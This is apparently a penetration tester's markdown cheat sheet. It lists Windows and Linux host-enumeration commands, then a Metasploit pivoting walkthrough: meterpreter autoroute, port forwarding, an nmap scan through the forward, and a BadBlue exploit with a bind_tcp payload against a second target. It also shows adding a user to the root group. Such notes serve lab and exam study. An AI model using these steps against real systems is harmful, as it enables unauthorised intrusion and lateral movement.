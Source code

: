 
- __Display the all devices connected to the network__
  - __`arp -a`__

- __Display open port on target system__
  - __`netstat -ano`__ 

- __Display the state of the firewall__
  - __`netsh firewall show state`__
  - __or `nesth advfirewall firewall help` it will open help__
    - __`netsh advfirewall firewall dump`__
    - __`netsh advfirewall show allprofiles`__
   

- __service running__
 - __`tasklist /SVC`__

- __schedule task display__
  - __`schtasks /query /fo LIST /v`__
 
# linux
```
hostname
cat /etc/issue
cat /etc/*release
uname -a 
uname -r 
env
lscpu 
free -h 
df -h 
df -ht ext4
lsblk | grep sd 
dpkg -l 
adduser -m royal /bin/bash
groups
groups bob
usermod -aG root bob
lastlog
```


# pivoting
- __Adding target 1 route to your system in meterpreter__
  - > __Note: you must have access to the target 1 in meterpreter__
  - __`run autoroute -s <target_ip_1>.0/20`__
  - __`run autoroute -p` checking that routing is added__
  - > __keep the meterpreter session background so that we can do port scan__
  - __`search portscan` use tcp scan `use auxiliary/scanner/portscn/tcp`__
    - __`set RHOSTS <target_ip_2>` & `set PORTS 1-100`__
    - __If you want to know, what service version is running on that port in target 2 you need to do port forward, because we need nmap, Metasploit can't do it__
    - __`portfwd add -l 1234 -p 80 -r <target_ip_2>`__
      - __`-l 1234` your setting a specific port for port forward you can set any port which is not used by any service__
      - __`-p 80` the actually port which is running in the target 2 that you want to scan more__ 
      - > __Note this port forward should done in meterpreter session__  
    - __After adding the port forward in meterpreter then open a new terminal to perform nmap scan on port `1234`__
    - __`nmap -sV -O -T4 -p 1234 localhost`__
      - __for example you will get badblue service is running on port 80__
      - __go back to the meterpreter and search `search BadBlue`__
      - __`use exploit/windows/http/badblue_passthru`__
        - __`set payload windows/meterpreter/bind_tcp`__
        - __`set RHOSTS <target_ip_2>`__
